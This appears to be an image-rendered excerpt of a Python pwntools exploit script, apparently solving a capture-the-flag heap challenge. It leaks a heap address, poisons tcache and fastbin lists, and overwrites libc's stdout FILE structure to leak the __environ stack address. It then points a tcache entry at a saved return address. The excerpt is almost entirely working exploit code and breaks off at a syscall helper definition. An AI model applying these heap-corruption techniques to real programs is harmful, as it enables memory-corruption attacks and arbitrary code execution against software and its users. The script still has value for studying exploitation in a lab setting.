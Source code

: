 ```
heap_addr = u64(sh.recv(6)+'\x00\x00') - 0x2d0
Log('heap_addr')

#Load([8])	#clean PtrArr
#Fire(1)

#overwrite stdout's flag
for i in range(8):
	Buy(0x10, str(i)*0x10)	#0x20 chunk
Load([3])	#UB will remain a 0x30 chunk for us, exclude it
Fire(1)
Buy(0x10, '3'*0x10)	#0x20 chunk

Load([8, 7, 6, 5, 4, 3, 2])	#full Tcache[0x20]
Fire(7)

Load([0, 1])
Fire(2)			#fastbin->0->1

Buy(0x10, 'A'*0x10)
Load([0])	
Fire(2)			#fastbin->1<->0, bullet is empty

Buy(0x2C0, 'tcache'+'\n')
Load([0])
Fire(1)

Buy(0x90, 'tcache'+'\n')
Load([0])
Fire(1)

for i in range(7):	#clean Tcache[0x20]
	Buy(0x10, str(i)*0x10)

target = heap_addr + 0xc8			#target = &tcache->next[0x90]
Log('target')

stdout = libc.address + 0x1ec6A0
Log('stdout')

env = libc.symbols['__environ']
Log('env')

Buy(0x10, p64(target)+'\n')				#ArrPtr[7]=C1	Stash: 	Tcache->0->1->target
Buy(0x10, 'flag1'+'\n')					#ArrPtr[8]=C0			Tcache->1->target
Buy(0x10, 'flag2'+'\n')					#ArrPtr[9]=C1			Tcache->target
Buy(0x10, flat(stdout, heap_addr+0x1e8))	#ArrPtr[10]=stdout 		Tcache[0x90]->stdout, Tcache[0xA0]->&tcache->next[0x2D0]

FILE = p64(0xFBAD1800)			#magic
FILE+= p64(0)*3					#read
FILE+= p64(env)+p64(env+8)*2	#write
Buy(0x80, FILE+'\n')

stack_addr = u64(sh.recv(8))
Log('stack_addr')

ret = stack_addr - 0x120
Log('ret')

Buy(0x90, p64(ret)+'\n')	#tcache->next[0x310] = ret

def Call(SYS_n, a, b, c):
```